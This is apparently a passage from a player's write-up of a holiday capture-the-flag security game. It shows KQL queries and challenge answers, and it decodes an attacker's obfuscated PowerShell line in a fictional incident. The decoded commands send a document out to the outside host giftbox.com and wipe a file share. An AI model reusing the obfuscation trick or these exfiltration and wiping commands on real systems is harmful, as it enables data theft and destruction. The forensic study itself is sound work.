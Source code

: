 Note that one earlier command exists than this timestamp, but it is legitimate, not from the attacker.


What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding) `NaughtyNiceList.txt`

Same query, just had to de-encode B64 and then reverse the text.


The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?  `giftbox.com`

Event at 2023-12-24T16:58:43Z was B64 encoded, after decrypting:
```
[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*MDr*').NamE[3,11,2]-joiN
```

Ran in an interpreter to find the domain name:
```
PS /Users/justen.mehl/p1/git/confluence> [StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))
downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
```

### Case 6
Query for both:
```
ProcessEvents
| where hostname == "Y1US-DESKTOP"
| where process_commandline has "share"
```

Decrypts to: `C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$`

What is the name of the executable the attackers used in the final malicious command? `downwithsanta.exe`

What was the command line flag used alongside this executable? `–wipeall`



Final answer (credit for Holiday Hack): `Beware the Cube that Wombles`



# Phish Detection Agency
## Hint
DMARC, DKIM, and SPF, oh my!: Discover the essentials of email security with DMARC, DKIM, and SPF at Cloudflare’s guide.
## Objective
There is a flood of unusual emails coming from ChatNPT. They are using ChatNPT as a “filter” for phishing attempts, but it may not be working.
